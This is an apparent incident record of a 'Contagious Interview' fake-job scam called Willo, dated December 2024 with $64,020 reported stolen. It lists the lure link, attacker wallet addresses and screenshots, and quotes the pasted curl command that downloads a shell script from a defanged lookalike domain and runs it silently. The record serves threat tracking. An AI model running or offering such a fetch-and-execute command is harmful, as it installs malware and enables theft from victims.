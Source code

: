 # Willo

Date:: December 12th, 2024

Amount Stolen:: $64,020

Tags:: 🎙️ Contagious Interview

---

## Details

`curl -k -o /var/tmp/ffmpeg[.]sh https://api[.]nvidia-release[.]org/ffmpeg-ja[.]sh && chmod +x /var/tmp/ffmpeg[.]sh && nohup bash /var/tmp/ffmpeg[.]sh >/dev/null 2>&1 &`


> Please follow this link to complete the interview: `https://willointerview.com/invite/halliday`


## On-chain

- BCPKcYy6GQFVMLpdFq8iLwYjHE4GEXvwM1jCpUrg6mU4 - solana

- 0x66fe228806e3ce9fd06c8dbb9698014e8dc6ae56 - eth & base

- 0x2ecf64c21bba725a0ea4389a5c63b203806c84f5 (BSC)

- 0x2ecf64c21bba725a0ea4389a5c63b203806c84f5 - MEXC on BSC

- 0x2014f057ee83c419fa192ea4e7da0a1cfd7acc2b - MEXC on BSC

- 0x8a1fb46e20842692abc960aedc93e4cb204487c3 - MEXC on BSC

- GKYdVvus5SrsyrEKv9fJJ8FgttW9X1LY8iDqpcevH4yz - OKX on Solana

- 0x4bfc7f21807ec10e5c07941fedfa400b735c8fdb - ChangeNOW on Base




## Images

![](CI_Willo_2024-12-12_01.png)

![](CI_Willo_2024-12-12_02.png)

![](CI_Willo_2024-12-12_03.png)

![](CI_Willo_2024-12-12_04.png)

![](CI_Willo_2024-12-12_05.png)

![](CI_Willo_2024-12-12_06.png)

![](CI_Willo_2024-12-12_07.png)

![](CI_Willo_2024-12-12_08.png)

![](CI_Willo_2024-12-12_09.png)
